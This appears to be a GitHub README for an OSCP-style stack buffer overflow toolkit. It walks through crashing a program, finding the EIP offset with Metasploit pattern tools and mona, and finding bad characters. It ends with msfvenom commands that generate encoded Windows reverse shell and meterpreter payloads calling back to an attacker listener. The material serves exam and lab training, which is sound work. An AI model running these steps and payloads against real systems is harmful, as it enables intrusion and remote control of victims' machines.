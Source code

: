 # BoF4OSCP

TODO: python3 setup.py IP PORT

It's gonna edit all the python scripts with your target IP and PORT

Then follow the next steps...

Make sure mona is installed:
```
!mona config -set workingfolder c:\mona
```

## 1st step : create a crash

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

run python3 offset.py
```

check on mona what is the EIP address

take the EIP address that looks EIP 386F...

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset

```python3 eipOverwrite.py```

check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding badchars

```
python3 findingBadchars.py
```

right click on ESP, follow in dump

find the badchars using the following command

```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : fire up the reverse shell

We can also create an encoded one if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
```
edit finalBuff
setup a listener

```
python3 finalBuffer.py
```
